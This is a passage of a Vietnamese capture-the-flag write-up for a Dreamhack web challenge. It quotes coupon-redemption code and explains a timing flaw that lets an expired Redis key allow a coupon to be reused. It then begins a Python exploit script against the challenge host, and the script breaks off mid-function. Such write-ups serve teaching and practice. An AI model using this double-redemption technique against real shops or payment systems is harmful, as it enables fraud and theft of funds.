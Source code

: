 Vậy thì làm sao để khai thác được Challenge này đây ?

**Trả lời:** Nếu như ta đọc lại đoạn code chỗ này thì sẽ thấy Logic của Code có vấn đề:
```python
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```
* Nhìn vào dòng đầu tiên `if coupon['expiration'] < int(time())`, như ta đã biết `coupon['expiration']` sẽ có giá trị là thời điểm mà ta Claim Coupon rồi cộng thêm 45 giây, còn hàm `time()` chính là thời gian hiện tại.

**VD:** Nếu ta Claim Coupon ở thời gian: `10000` thì `coupon['expiration']` sẽ bằng `10045` và giả sử hàm `time()` lấy giá trị thời gian hiện tại là `10030`, thế thì câu điều kiện if trên sẽ không được thực hiện. Vấn đề cũng xuất phát từ đây, nếu hàm `time()` trả về giá trị `10045` thì câu if trên cũng không được thực hiện và ta có thể vượt qua nó, và điều quan trọng nữa là `10045` chính là thời gian hết hạn của `used_coupon`. Từ thời gian thực thi câu if dòng 1 cho đến câu điều kiện kiểm tra `used_coupon` có còn tồn tại không `if r.setnx(used_coupon, 1):` thì khoảng thời gian đó đã làm cho `used_coupon` hết hạn, từ đó ta có thể vượt qua kiểm tra điều kiện `used_coupon` và ứng dụng sẽ tiến hành cấp tiền cho ta.

=> Về cơ bản ta có thể lợi dụng thời điểm giây 45 để vượt qua cơ chế kiểm tra không chặt chẽ của chương trình và từ đó có thể sử dụng lại `coupon`.

Để khai thác lỗ hổng trên, ta có thể dùng code sau:
```python
import requests
import json
import time
 
url = "http://host3.dreamhack.games:24503/" # Change this
session_id = "77a8e91a41904fc19497a8a3ed0515f9" # Change this
 
def claim_coupon(session):
    headers = {"Authorization": session}
    response = requests.get(url + "coupon/claim", headers=headers)
    if response.status_code == 200:
        coupon = json.loads(response.text)["coupon"]
        print("Coupon claimed successfully")
        print("Coupon:", coupon)
        return coupon
    else:
        raise Exception("Failed to claim coupon")
 
def submit_coupon(session, coupon):
```
